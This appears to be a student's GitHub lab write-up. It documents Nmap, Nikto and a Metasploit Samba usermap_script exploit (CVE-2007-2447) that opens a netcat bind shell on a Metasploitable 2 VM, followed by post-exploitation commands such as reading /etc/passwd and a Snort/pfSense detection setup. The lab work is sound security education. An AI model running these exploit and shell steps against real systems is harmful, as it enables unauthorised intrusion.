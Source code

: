 <p align="center">
  <img src="https://images.cooltext.com/5732538.gif" alt="Tools and System Analysis">
</p>

This section documents the cybersecurity tools used in the lab and the systems configured to support penetration testing and threat detection.

## Kali Linux Tools Used

Below are the tools from Kali Linux that I used in this lab along with simple explanations of what they do:

### Nmap
**Command Used:** `nmap -sS 192.168.12.14`
Nmap is a network scanning tool that helped me discover open ports and services on the Metasploitable 2 target. The `-sS` flag tells Nmap to perform a stealthy SYN scan. I used it first to understand what was running on the target machine.

![image](https://github.com/user-attachments/assets/7dfcfbd0-28dc-484c-93a2-484d13deacd0) 

![image](https://github.com/user-attachments/assets/ee6ed450-cba5-4d61-a585-5238173638f6)

![image](https://github.com/user-attachments/assets/aa2dcbeb-e2f5-4bae-83a8-957b61daa1c5)

![image](https://github.com/user-attachments/assets/c4bd4a11-44ca-439a-815f-ff4a552b9124)

### Metasploit Framework (Kali)
**Command Used:**
```
use exploit/multi/samba/usermap_script
set payload cmd/unix/bind_netcat
set RHOSTS 192.168.12.14
set RPORT 139
run
```
Metasploit is a powerful framework for developing and executing exploits. I used it to exploit a vulnerability in Samba (CVE-2007-2447) on the Metasploitable 2 target. The exploit created a bind shell, allowing me to connect and get command-line access. The session was established when Metasploit confirmed a successful shell connection.

### Nikto
**Command Used:** `nikto -h 192.168.12.14`
Nikto is a web vulnerability scanner. I ran this command to scan for known vulnerabilities on the web server running on the Metasploitable 2 machine. It checked for outdated software, misconfigurations, and dangerous scripts.

![image](https://github.com/user-attachments/assets/ae17d257-75b6-48c1-b6e8-0331aafe7bbf)

### Netcat
Netcat was used as part of the bind shell payload in Metasploit. It creates connections between machines using TCP or UDP, making it great for reverse or bind shells. In this lab, it allowed my attacker machine to interact with the target once the exploit was successful.

### whoami / id / uname -a / ifconfig / cat / ls / ps / netstat
Once inside the target, I used basic Linux commands to learn more about the system:
- `whoami`: Showed that I had root access.
- `id`: Gave detailed user/group info.
- `uname -a`: Displayed system and kernel information.
- `ifconfig`: Displayed network interface settings.
- `cat /etc/passwd`: Showed user accounts.
- `ls /home`: Showed available home directories.
- `ps aux`: Listed all running processes.
- `netstat -antp`: Showed network connections and listening services.

These commands helped confirm I was on the right machine and gave me information that would be useful if I continued with post-exploitation tasks.

![image](https://github.com/user-attachments/assets/921257d0-1e66-444a-b2b7-766edea8e816)

![image](https://github.com/user-attachments/assets/5012db43-f898-4046-b5b3-68e29a3c69a1)

![image](https://github.com/user-attachments/assets/9b02fa46-0eea-48a8-8961-86850e91f5cd)

![image](https://github.com/user-attachments/assets/b8ed89f3-142e-45aa-b7b6-f8f47c6b8391)

![image](https://github.com/user-attachments/assets/38e5dc93-0010-48aa-9d99-ccc6a7fe6346)

---

## Snort IDS/IPS and pfSense

Snort was installed on the pfSense firewall and used to monitor traffic on the `server_net` (192.168.12.x). It acted as an Intrusion Detection System (IDS) by analyzing packets and generating alerts when it recognized potentially malicious activity, like the Samba exploit I ran. Snort rules triggered alerts that were viewable in the pfSense web interface under "Snort Alerts."

pfSense is an open-source firewall used to separate different segments of the network. I set up 3 LAN interfaces and 1 WAN interface:
- WAN: External network for updates.
- OPT1: attacker_net for the Kali machine.
- OPT2: server_net for the Metasploitable 2 machine.
- OPT3: management_net (not directly used in this lab).

Snort was specifically configured to monitor traffic from LAN2, where the vulnerable server lived. This allowed me to simulate a real detection setup where attacks would trigger alerts without disrupting legitimate traffic.

![image](https://github.com/user-attachments/assets/c8a23a8a-88f5-42b5-9db9-c5132c576c93) 
Snort WAN alerts

![image](https://github.com/user-attachments/assets/9642043a-9ae1-4b46-8c38-7ace19c5a362) 
![image](https://github.com/user-attachments/assets/17e13187-1acd-4434-9ca4-90e9666f5728) 
Snort LAN alerts

![image](https://github.com/user-attachments/assets/857d8176-f1d9-4cba-a548-7cbf45344738)
![image](https://github.com/user-attachments/assets/1c54fc3f-2aa9-4569-9054-ce3efcb4165b) 
Snort OPT1 alerts
